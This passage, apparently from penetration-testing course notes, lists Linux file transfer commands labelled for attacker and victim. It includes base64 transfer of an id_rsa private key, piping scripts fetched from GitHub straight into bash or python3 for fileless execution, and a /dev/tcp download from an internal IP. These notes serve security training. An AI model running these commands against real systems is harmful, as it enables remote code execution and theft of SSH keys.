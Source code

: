 `C:\htb> ftp -v -n -s:ftpcommand.txt`

# Linux File Transfer Methods

# Download Operations

## **Base64 Encoding / Decoding**

**Attacker**

`[!bash!]**$** md5sum id_rsa`

`[!bash!]**$** cat id_rsa |base64 -w 0;echo`

**Victim**

`[!bash!]**$** echo -n '<base64>' | base64 -d > id_rsa`

`[!bash!]**$** md5sum id_rsa`

## **Web Downloads with Wget and cURL**

`[!bash!]**$** wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh`

`[!bash!]**$** curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh`

## **Fileless Attacks Using Linux**

`[!bash!]**$** curl https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash`

`[!bash!]**$** wget -qO- https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/helloworld.py | python3`

## **Download with Bash (/dev/tcp)**

`[!bash!]**$** exec 3<>/dev/tcp/10.10.10.32/80`

`[!bash!]**$** echo -e "GET /LinEnum.sh HTTP/1.1\n\n">**&3**`

`[!bash!]**$** cat <&3`

## **SSH Downloads**

`SCP` (secure copy) is a command-line utility that allows you to copy files and directories between two hosts securely. We can copy our files from local to remote servers and from remote servers to our local machine.

`SCP` is very similar to `copy` or `cp`, but instead of providing a local path, we need to specify a username, the remote IP address or DNS name, and the user's credentials.

Attacker
